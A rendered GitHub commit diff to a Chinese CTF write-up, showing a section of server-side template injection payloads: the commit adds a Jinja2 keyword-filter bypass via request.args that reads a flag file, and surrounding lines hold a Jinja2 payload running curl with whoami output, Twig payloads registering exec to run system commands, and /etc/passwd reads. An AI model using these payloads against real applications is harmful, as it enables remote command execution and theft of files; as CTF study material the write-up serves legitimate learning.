

Before and after one commit to 181726943/writeup, a Markdown page: ctf-wp.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
增加Jinja2绕过方法

````diff
--- a/ctf-wp.md
+++ b/ctf-wp.md
@@ -976,10 +976,16 @@ servlet包含了路径信息，我们尝试包含一下FlagController所在路
         {% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
     ```
 
+    过滤class,subclass等关键字:可以用request.args绕过
+
+    ```python
+    [request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()?a=__class__&b=__mro__&c=__subclasses__&d=read
+    ```
+
     Twig
 
-    ```Twig
-        {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}//其中id可以更换为系统命令
+    ```python
+        {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}} # 其中id可以更换为系统命令
         {{'/etc/passwd'|file_excerpt(1,30)}}
 
         {{app.request.files.get(1).__construct('/etc/passwd','')}}
````
Also changed, not shown: other parts of ctf-wp.md (+1 -1 lines).
